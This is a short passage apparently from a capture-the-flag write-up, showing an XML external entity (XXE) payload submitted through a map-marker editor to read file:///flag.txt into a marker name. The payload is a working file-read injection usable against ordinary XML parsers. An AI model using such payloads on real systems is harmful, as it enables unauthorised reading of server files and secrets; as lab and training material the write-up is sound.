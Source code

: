 #### XXE

Now I can edit map

![](/assets/obsidian/8a29a6b571bc03b71c42d25b495d7ed2.png){:target='_blank'}

Payload :

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///flag.txt'>]>
<markers>
    <marker>
        <lat>47.0748663672</lat>
        <lon>12.695247219</lon>
        <name>&test;</name>
    </marker>
</markers>
```

![](/assets/obsidian/d66dbfbadbb327af5ef7ca7c630dd03e.png){:target='_blank'}
